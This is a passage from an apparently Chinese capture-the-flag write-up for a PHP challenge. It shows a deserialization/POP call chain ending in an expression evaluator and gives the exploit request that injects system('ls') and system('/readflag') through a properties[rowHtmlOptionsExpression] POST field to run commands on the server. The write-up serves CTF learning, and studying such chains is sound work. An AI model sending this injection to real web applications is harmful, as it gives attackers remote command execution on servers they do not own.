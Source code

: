 ```PHP
ListView.run() 

ListView.renderContent() 

ListView.renderSection($matches) 

TestView.renderTableBody() 

TestView.renderTableRow($row) 
Base.evaluateExpression($_expression_,$_data_=array())
```

大致的pop链就这样

get：?action=TestView

post： properties[template]={TableBody}&properties[data]=1&properties[rowHtmlOptionsExpression]=system('ls')

![image-20220427134206973](/upload/img/image-20220427134206973.png)

这个flag.txt没法直接读取，/readflag读出来是乱码，emm尝试直接访问/readflag

![image-20220427134528800](/upload/img/image-20220427134528800.png)

最后的patload

get：?action=TestView 

POST： properties[template]={TableBody}&properties[data]=1&properties[rowHtmlOptionsExpression]=system('/readflag')
### soeasy_php
这题做的我好烦——————赛后复现
